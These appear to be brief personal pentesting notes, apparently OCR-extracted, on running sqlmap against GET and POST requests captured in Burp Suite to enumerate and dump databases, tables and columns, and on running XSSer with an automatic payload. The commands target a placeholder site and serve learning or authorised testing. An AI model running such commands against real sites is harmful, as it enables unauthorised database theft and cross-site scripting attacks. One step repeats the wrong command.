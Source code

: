 SQLMAP      
GET method => through url so -u         
POST method => through txt file (from burp)     
To operate with SQLMAP you do a request from burpsuite => you copy it (using burpsuite not CTRL+C CTRL+V)       
**sqlmap -r <request_file> -p <vulnerable_parameter> --dbs** find the SQL type + tables         
For GET method to do the same thing         
**sqlmap -u https://testsite.com/page.php?id=7 –dbs**       
Once you get the database name you pivot for tables ;       
With the GET method     
**sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns**   
With the POST method    
**sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables**
Then you can get the columns        
With GET method         
**sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns**       
With POST method        
**sqlmap -r req.txt -D <database_name> -T <table_name> --columns**
You can also simply dump all with --dump-all                

XSSer       
**xsser –url “[your_url]” -p “[payload]” –auto**   
-p option = what you get from your burpsuite





